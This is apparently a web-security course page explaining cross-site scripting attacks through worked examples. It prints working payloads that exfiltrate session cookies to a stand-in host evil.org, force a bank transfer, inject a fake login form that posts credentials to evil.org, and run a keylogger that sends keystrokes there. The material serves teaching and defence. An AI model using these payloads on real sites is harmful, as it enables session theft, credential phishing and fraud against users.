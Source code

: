 ```yaml
---
title: XSS Examples
module: 12
jotted: false
---
```


# Cross-site scripting (XSS) examples
Before we go into specific examples, we should also point out an important distinction. Some XSS attacks are aimed at acquiring information only once. In these cases, the victim computer executes a malicious script and sends stolen information to an attacker-controlled server.

Other attacks, however, focus on repeated exploits by:

1. Hijacking a user session and logging in to the account to collect information.
2. Phishing and logging in to an account with the username and password.
3. Changing the password of the victim. This is possible when the application allows changing or resetting passwords without having to enter the old password (or a one-time code).
4. Creating a new privileged user, when the victim has the rights to do so.
5. Implanting a JavaScript backdoor. For this, the victim needs to have rights to edit page content. This could also involve stored XSS on frequently visited pages, if the victim has the necessary rights.
6. Application attacks by leveraging the victim's rights have targeted WordPress (remote code execution [RCE] through the template/plugin editor in the admin panel) and Joomla (RCE through download of arbitrary files).
7. As we have seen, XSS allows executing JavaScript in the context of a vulnerable web application. But unlike SQLi, XXE, AFR, and others, JavaScript scripts are executed in the end user's web browser. The primary goal of an XSS attack is to access the user's resources. Let's look at a few examples of such attacks.

## Session hijacking

Imagine the following scenario. A user opens a browser and goes to an online banking page. The user is prompted to log in with their username and password. Obviously, the user's subsequent actions should then be regarded as legitimate. But how do you verify this legitimacy without asking the user to log in after every single click?

Fortunately for users, there is a way of doing that. After successful authentication, the server generates a string that uniquely identifies the current user session. This string is passed in a response header, in the form of cookie data. The following screenshot shows an example of a server response in which the session cookie is called JSESSIONID:

On subsequent visits to the server, the cookie data will be automatically included in the request. This data will be used by the server to determine whether the request comes from a legitimate user. Naturally, the security of session cookies then becomes critical. Any interception of this information would enable impersonating a legitimate user.

One of the classic ways to transfer session cookie data to an attacker is to send an HTTP request from the user's web browser to an attacker-controlled server. In this case, the request is generated by JavaScript that is embedded on a vulnerable web page. The cookie data is then transmitted in the parameters of this request. One example of an attack vector could be the following:

    
```html
<script>new Image().src="http://evil.org/do?data="+document.cookie;</script>
```

In this example, the user's web browser creates an image object in the DOM model. After that, it tries to load the image from the address specified in the src tag. The browser then sends the cookie data to the attacker's site with the corresponding HTTP request handler:

    
```js
@GetMapping(value = "/do", produces = MediaType.IMAGE_PNG_VALUE)
public @ResponseBody byte[] getImage(@RequestParam(name = "data") String data) throws IOException {
    log.info("Document.cookie = {}", data);
    InputStream in = getClass().getResourceAsStream("/images/1x1.png");
    return IOUtils.toByteArray(in);
}
```

In this case, an attacker only needs to listen to incoming connections, or else configure event logs and obtain cookie data from the log files (this is described later in more detail).

Later on, an attacker can use session cookie data in their own requests to impersonate the user.

## Impersonating the current user

JavaScript is a very capable programming language. An attacker can use these abilities, combined with XSS vulnerabilities, simultaneously as part of an attack vector. So instead of XSS being a way just to obtain critical user data, it can also be a way to conduct an attack directly from the user's browser.

For example, XMLHttpRequest objects are used to generate HTTP requests to web application resources. Such requests may include generating and submitting HTML forms via POST requests, which are automatic and often invisible. These requests can be used to send comments or to conduct financial transactions:

    
```html
<script>
    var req = new XMLHttpRequest();
    req.open('POST','http://bank.org/transfer',true);
    req.setRequestHeader('Content-type','application/x-www-form-urlencoded');
    req.send('from=A&to=B&amount=1000');
</script>
```

By exploiting an XSS vulnerability with this attack vector, malicious actors can transfer any specified amount of money to their accounts.

## Phishing attacks

As noted already, XSS can be used to embed JavaScript scripts that modify the DOM model in a web page. This allows an attacker to change how the website appears to the user, such as by creating fake input forms. If a vulnerable web application permits modifications to the DOM model, an attacker could inject a fake authentication form into the web page by using the following attack vector:

```html
<h3>Please login to proceed</h3><form action="http://evil.org/login" method="post">Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon">
```

The following form will be displayedthen appears on the web page:

Any credentials that a user enters in this form will be sent as a POST request to the evil.org attacker website:


## Capture keystrokes

Opportunities for exploiting XSS vulnerabilities are not limited to executable scripts. If an attacker has an Internet server, malicious scripts can be loaded directly from it. An attacker could deploy the following script to capture keystrokes:

    
```js
var buffer = [];
var evilSite = 'http://evil.org/keys?data='
 
document.onkeypress = function(e) {
    var timestamp = Date.now() | 0;
    var stroke = {
        k: e.key,
        t: timestamp
    };
    buffer.push(stroke);
}
 
window.setInterval(function() {
    if (0 == buffer.length) return;
    var data = encodeURIComponent(JSON.stringify(buffer));
    new Image().src = evilSite + data;
    buffer = [];
}, 600);
``` 

The script here implements a keystroke interceptor that saves the corresponding character and timestamp to the internal buffer. It also implements a function that sends data stored in the buffer twice per second to the evil.org attacker server.

In order to embed this keylogger script on a target web page, actors can use the following attack vector:

```html
<script src="http://evil.org/js?name=keystrokes">
```

After the exploit is triggered, the user's keystrokes on the web page will be redirected to the attacker server:

The screenshot shows entries from the event log on the attacker server. In this example, the user has typed "James" on the keyboard. These records show keystrokes presented in JSON format: the field "k" contains a character and the field "t" contains the corresponding timestamp.